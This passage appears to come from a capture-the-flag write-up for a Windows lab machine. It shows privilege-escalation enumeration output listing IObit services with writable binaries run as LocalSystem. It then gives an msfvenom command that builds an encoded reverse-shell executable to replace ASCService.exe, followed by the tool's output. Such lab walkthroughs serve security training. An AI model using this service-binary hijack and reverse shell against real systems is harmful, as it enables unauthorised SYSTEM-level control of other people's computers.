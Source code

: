 Name           : LiveUpdateSvc
Check          : Unquoted Service Paths

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

ServiceName                     : IObitUnSvr
Path                            : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'IObitUnSvr'
CanRestart                      : False
Name                            : IObitUnSvr
Check                           : Modifiable Service Files

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files


PS > get-service | where { $_.name -like 'Advanced*' } | ft -auto

Status  Name                       DisplayName
------  ----                       -----------
Running AdvancedSystemCareService9 Advanced SystemCare Service 9{% endraw %}{% endcapture %} {% include code.html code=code %}

The service `AdvancedSystemCareService9` has `CanRestart` enabled and also is vulnerable to `Unquoted Service Paths`. Use `msfvenom` to create a `reverse shell` payload to masquerade as executable `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe` within the OS.
{% capture code %}{% raw %}msfvenom -p windows/shell_reverse_tcp LHOST=<source-ip> LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: ASCService.exe{% endraw %}{% endcapture %} {% include code.html code=code %}
